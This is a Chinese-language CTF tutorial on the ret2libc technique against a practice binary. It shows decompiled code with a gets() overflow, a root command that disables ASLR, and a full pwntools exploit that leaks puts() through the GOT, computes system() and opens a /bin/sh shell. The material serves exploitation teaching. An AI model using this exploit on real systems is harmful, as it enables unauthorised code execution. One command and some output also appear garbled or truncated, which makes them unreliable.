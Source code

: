 ```yaml
---
title: ret2libc攻击技术示例-泄露libc基地址计算system()地址绕过ASLR
tags: [CTF, pwn, rop]
layout: post
categories: tutorials
---
```


## 情景描述

随着保护的加强，比如加入了`ASLR(Address Space Layout Randomization),地址空间格局的随机化`保护，这时我们所获取的各个函数地址都在变化中变得不再可用（在本地我们可用），这时我们还要使用libc中的system()函数获取shell的话，那我们该怎么办呢？

其实`ASLR`在随机化过程中，只会改变libc的基地址，对于libc中各个函数的偏移是不会改变的，因此只要我们泄露内存中的`libc基地址`那么我们就能够根据偏移得到system()函数地址。

当然我们本地是可以关闭`ASLR`保护的，只需要在终端执行以下命令
```bash
sudo -s
echo 0 > /proc/sys/kernel/randomize_va_space # 2 - trun on
exit
```

## 漏洞分析

本节示例的漏洞代码可以在此处下载： [ret2libc3](http://od7mpc53s.bkt.clouddn.com/ret2libc3) & [libc.so.6](http://od7mpc53s.bkt.clouddn.com/libc.so.6)
当然这里的libc.so.6最好是用自己系统的。我们可以通过`ldd`命令查看

``` bash
➜  ret2libc3 ldd ret2libc3
	linux-gate.so.1 =>  (0xf77da000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7605000)
	/lib/ld-linux.so.2 (0x565eb000)
```

我们可以通过`sudo /lib/i386-linux-gnu/libc.so.6 .`获取合适的libc。否则的话，在本节中会出现无法拿到shell的情况哦。

我们用IDA反编译一下可以看到

``` c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets((char *)&v4);
  return 0;
}
```

我们要怎么获得libc中某函数的地址呢？我们一般采用的方法就是泄露got表。因为linux的延迟绑定，我们需要选择至少执行过一次的函数进行泄露，比如这里的`puts()`

通过泄露`puts()`在libc中的偏移，再结合`puts()`的实际内存地址，我们可以这样进行计算：
``` python
system_addr - libc_system = puts_addr - libc_puts
system_addr = puts_addr + (libc_system - libc_puts)
```
即system()的内存地址为puts()的内存地址再加上两个函数在libc中的偏移差

那么

``` bash
➜  ret2libc3 objdump -dj .plt ret2libc3 | grep -E "puts|system"
08048460 <puts@plt>:
```

## 攻击代码

``` python
from pwn import *

#context.log_level = 'debug'

elf = ELF('ret2libc3')
libc = ELF('libc.so.6')


plt_puts = elf.symbols['puts']
got_puts = elf.got['puts']
plt_main = elf.symbols['_start']

libc_system = libc.symbols['system']
libc_puts = libc.symbols['puts']

payload = 'A' * 112
payload += p32(plt_puts) + p32(plt_main) + p32(got_puts)

io = process('ret2libc3')
io.recvuntil('Can you find it !?')
io.sendline(payload)

temp = io.recv(4)
puts_addr = u32(temp)
print "[+] puts() address: " + hex(puts_addr)

libc_base = puts_addr - libc_puts
print "[+] libc base address: " + hex(libc_base)

system_addr = libc_base + libc_system
print "[+] system address: " + hex(system_addr)

bin_sh_addr = libc_base + next(libc.search('/bin/sh'))
print "[+] /bin/sh address: " + hex(bin_sh_addr)

payload = 'A' * 112
payload += p32(system_addr) + p32(0xdeadbeef) + p32(bin_sh_addr)

io.recvuntil('Can you find it !?')
io.sendline(payload)
io.interactive()

```
